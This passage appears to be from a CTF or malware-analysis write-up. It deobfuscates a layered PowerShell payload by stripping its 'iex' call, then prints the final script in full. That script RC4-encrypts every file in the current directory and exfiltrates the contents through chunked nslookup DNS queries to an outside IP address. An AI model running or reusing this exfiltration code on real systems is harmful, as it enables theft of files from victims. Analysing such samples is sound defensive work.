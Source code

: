 The second step is made up of curly bracket (format operator) obfuscated Powershell. To deobfuscate remove the last part of the string ` |  ${;@!}  " ` which is the `iex` part and execute it. As such we are left with a normal script afterwards.

![](/assets/img/2023-01-17-22-33-03.png)

This is also deobfuscated by removing the last iex part.

The last payload is:
```
$d="172.21.20.96"; $s=4; $b=57; Get-ChildItem "." | Foreach-Object {$a=[System.Convert]::ToBase64String($Enc.GetBytes($_.Name)); $R={$D,$K=$Args;$S=0..
255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Length])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor
$S[($S[$I]+$S[$H])%256]}}; $Enc = [System.Text.Encoding]::ASCII; $p = $Enc.GetBytes('[System.IO.File]::ReadAllBytes($_.FullName)'); $z = $Enc.GetBytes(
[System.IO.File]::ReadAllBytes($_.FullName)); $u = (& $R $z $p); $e = [System.Convert]::ToBase64String($u); $l=$e.Length; $r=""; $n=0; while ($n -le ($
l/$b)) { $c=$b; if (($n*$b)+$c -gt $l) { $c=$l-($n*$b) }; $r+=$e.Substring($n*$b, $c) + "."; if (($n%$s) -eq ($s-1)) { nslookup -type=A $r$a. $d; $r=""
 } $n=$n+1 } nslookup -type=A $r$a. $d }

 ```

 
 $no= Get-ChildItem "." | Select-Object -First 1 


![](/assets/img/2023-01-17-22-45-36.png)
